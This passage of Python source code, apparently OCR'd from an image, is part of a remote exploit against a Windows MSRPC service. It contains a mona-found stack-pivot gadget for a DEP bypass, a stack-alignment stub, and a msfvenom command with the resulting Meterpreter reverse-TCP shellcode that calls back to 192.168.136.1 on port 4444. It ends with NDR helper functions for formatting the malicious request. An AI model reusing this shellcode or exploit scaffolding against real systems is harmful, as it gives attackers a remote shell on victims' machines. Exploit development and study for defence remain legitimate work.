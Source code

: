         # stack alignment same as metasploit
        "stkalign": "\x81\xE4\xF0\xFF\xFF\xFF",
        # Found with mona will be used to jump into 
        # DEP bypass + shellcode
        # ADD ESP,30 # POP EDX # RETN [msvcrt.dll]
        "stkpivot": pack("<L", 0x77BDF444),
    }
}

# msfvenom --platform windows  -p windows/meterpreter/reverse_tcp -a x86 
# -b '\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40' LHOST=192.168.136.1 LPORT=4444 --smallest -f py
#Payload size: 306 bytes
#Final size of py file: 1474 bytes
SHELLCODE = (
    "\x6a\x47\x59\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73\x13"
    "\xf4\x7a\x8e\x94\x83\xeb\xfc\xe2\xf4\x08\x92\x0c\x94"
    "\xf4\x7a\xee\x1d\x11\x4b\x4e\xf0\x7f\x2a\xbe\x1f\xa6"
    "\x76\x05\xc6\xe0\xf1\xfc\xbc\xfb\xcd\xc4\xb2\xc5\x85"
    "\x22\xa8\x95\x06\x8c\xb8\xd4\xbb\x41\x99\xf5\xbd\x6c"
    "\x66\xa6\x2d\x05\xc6\xe4\xf1\xc4\xa8\x7f\x36\x9f\xec"
    "\x17\x32\x8f\x45\xa5\xf1\xd7\xb4\xf5\xa9\x05\xdd\xec"
    "\x99\xb4\xdd\x7f\x4e\x05\x95\x22\x4b\x71\x38\x35\xb5"
    "\x83\x95\x33\x42\x6e\xe1\x02\x79\xf3\x6c\xcf\x07\xaa"
    "\xe1\x10\x22\x05\xcc\xd0\x7b\x5d\xf2\x7f\x76\xc5\x1f"
    "\xac\x66\x8f\x47\x7f\x7e\x05\x95\x24\xf3\xca\xb0\xd0"
    "\x21\xd5\xf5\xad\x20\xdf\x6b\x14\x25\xd1\xce\x7f\x68"
    "\x65\x19\xa9\x12\xbd\xa6\xf4\x7a\xe6\xe3\x87\x48\xd1"
    "\xc0\x9c\x36\xf9\xb2\xf3\x85\x5b\x2c\x64\x7b\x8e\x94"
    "\xdd\xbe\xda\xc4\x9c\x53\x0e\xff\xf4\x85\x5b\xfe\xfe"
    "\x12\x4e\x3c\x7c\x7b\xe6\x96\xf4\x6b\xd2\x1d\x12\x2a"
    "\xde\xc4\xa4\x3a\xde\xd4\xa4\x12\x64\x9b\x2b\x9a\x71"
    "\x41\x63\x10\x9e\xc2\xa3\x12\x17\x31\x80\x1b\x71\x41"
    "\x71\xba\xfa\x98\x0b\x34\x86\xe1\x18\x12\x7e\x21\x56"
    "\x2c\x71\x41\x9e\x7a\xe4\x90\xa2\x2d\xe6\x96\x2d\xb2"
    "\xd1\x6b\x21\xf1\xb8\xfe\xb4\x12\x8e\x84\xf4\x7a\xd8"
    "\xfe\xf4\x12\xd6\x30\xa7\x9f\x71\x41\x67\x29\xe4\x94"
    "\xa2\x29\xd9\xfc\xf6\xa3\x46\xcb\x0b\xaf\x8f\x57\xdd"
    "\xbc\xfb\x7a\x37\x7a\x8e\x94"
)

"""
NDR Type build functions
This will be used to 'format' the string 
in a way that is compatible with what Windows MSRPC
service expects
"""

def ndr_long(value):
    return pack("<L", value)


def ndr_aling(value):
    return "\x00" * ((4 - (len(value) & 3)) & 3)

